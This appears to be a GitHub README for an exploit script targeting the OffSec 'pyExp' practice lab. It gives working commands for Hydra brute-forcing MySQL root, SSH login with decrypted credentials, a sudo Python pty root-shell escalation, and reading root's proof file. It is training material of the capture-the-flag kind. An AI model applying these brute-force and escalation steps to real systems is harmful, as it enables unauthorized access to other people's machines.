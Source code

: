 # Offsec-pyExp

```
Usage : python3 resolv-pyExp.py -i 192.168.182.118 -p 3306 -w /usr/share/wordlists/rockyou.txt
```

Specific Steps for pyExp

Reconnaissance: Scan to identify running services, particularly MySQL (tcp/3306) and SSH (tcp/1337).

Brute Force MySQL: Use Hydra to brute force MySQL access using the wordlist /usr/share/wordlist/rockyou.txt.

```bash
hydra -l root -P /usr/share/wordlist/rockyou.txt mysql://<IP_ADDRESS>:3306
```
Database Access: Extract the encrypted SSH credentials via the symmetric Fernet algorithm from the `data` table.

SSH Connection: Decrypt the credentials and connect via SSH on tcp/1337.

```bash
ssh <user>@<IP_ADDRESS> -p 1337
```
Privilege Escalation: The user 'lucy' can execute a script with root privileges without a password. Use it for privilege escalation.

```bash
sudo /usr/bin/python2 /opt/exp.py
import pty;pty.spawn("/bin/bash")
```

Flag Retrieval: Read the local.txt and proof.txt files after privilege escalation.

```bash
cat local.txt
cat /root/proof.txt
```

Credits : Isid0r3 & Jedidia
